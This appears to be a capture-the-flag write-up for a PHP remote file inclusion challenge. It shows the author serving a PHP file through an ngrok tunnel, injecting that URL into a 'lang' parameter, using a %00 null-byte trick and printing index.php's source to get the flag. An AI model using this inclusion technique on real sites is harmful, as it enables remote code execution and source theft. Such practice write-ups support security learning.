



I set up an http server on my local machine using this line: `python3 -m http.server 678` (port 678)


And then, I set ngrok tunnel, using this line: `ngrok http 678` (port 678)


Now, let's try and give this `https://7a7fe756011a.ngrok-free.app/` (don't forget `/` at the end)

```
?lang=https://7a7fe756011a.ngrok-free.app/
```

we get this error message:  
```
Warning: include(https://7a7fe756011a.ngrok-free.app/_lang.php): failed to open stream: HTTP request failed! HTTP/1.0 404 Not Found
 in /challenge/web-serveur/ch13/index.php on line 18

Warning: include(): Failed opening 'https://7a7fe756011a.ngrok-free.app/_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```

So, let's add our php code in this file `_lang.php` (notice we can also append `%00` and then ignore `_lang.php`)

this will be our code:
```php
<?php
    echo file_get_contents("index.php");
?>
```


**Flag:** ***`R3m0t3_iS_r3aL1y_3v1l`***
